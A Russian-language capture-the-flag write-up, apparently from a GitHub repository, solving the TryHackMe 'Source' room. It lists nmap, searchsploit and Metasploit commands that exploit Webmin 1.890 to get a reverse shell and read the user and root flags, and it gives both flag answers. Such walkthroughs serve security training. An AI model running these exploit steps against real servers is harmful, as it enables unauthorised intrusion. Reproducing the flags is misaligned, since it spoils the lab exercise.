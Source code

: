[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Source](https://tryhackme.com/r/room/source) 

Всего 1 заданиe:
## Задание 1
Перечислите и укорените ящик, прикрепленный к этой задаче. Можете ли вы обнаружить источник нарушения и использовать 
его, чтобы взять под контроль? 

Путешествие Екатерины на Dribbble

Эта виртуальная машина также включена в комнату AttackerKB как часть управляемого опыта. Кроме того, вы можете 
загрузить OVA Source для использования в автономном режиме с  https://www.darkstar7471.com/resources.html 

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sV -sC -Pn <IP>
searchsploit webmin 1.890
msfconsole
search webmin
use 7
options
set LHOST tun0
set RHOSTS <IP>
exploit
id
cat /home/dark/user.txt
```
```commandline
THM{SUPPLY_CHAIN_COMPROMISE}
```
корень.txt
```commandline
cat /root/root.txt
```
```commandline
THM{UPDATE_YOUR_INSTALL}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
